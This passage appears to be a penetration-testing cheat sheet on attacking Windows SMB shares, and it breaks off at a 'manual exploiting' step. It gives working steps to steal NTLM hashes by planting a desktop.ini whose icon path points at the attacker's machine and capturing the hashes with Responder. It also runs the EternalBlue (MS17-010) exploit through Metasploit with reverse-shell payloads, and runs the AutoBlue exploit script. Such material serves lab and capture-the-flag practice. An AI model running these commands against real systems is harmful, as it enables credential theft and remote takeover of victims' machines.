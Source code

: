 ### Steal NTLM Hash with Desktop.ini

Reference: [https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini)

We can retrieve the hashes by putting **`desktop.ini`** file, that contains arbitrary icon resource path, to the shared folder.  
Create a new **`desktop.ini`** in local machine.

```txt
[.ShellClassInfo]
IconResource=\\<local-ip>\test
```

Then upload it to the writable shared folder.

```bash
smb> put desktop.ini
```

Start responder in local machine.

```bash
responder -I tun0
```

After a while, we can retrieve the NTLM hashes.

<br />

## EternalBlue (MS17-010)

```sh
msfconsole
msf> use exploit/windows/smb/ms17_010_eternalblue
msf> set rhosts <target-ip>
msf> set lhost <local-ip>
msf> run
# If you cannot get a shell with the default payloed (windows/x64/meterpreter/reverse_tcp), try to change the payload
msf> set payload payload/generic/shell_reverse_tcp
```

### AutoBlue

**[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010)** is an automatic exploit.  
Download the repository and run the following example command.

```sh
python zzz_exploit.py -target-ip <target-ip> -port 445 'username:password@target'
```

### Manual Exploiting

You need to have two files - exploit.py, mysmb.py

1. **Download mysmb.py**
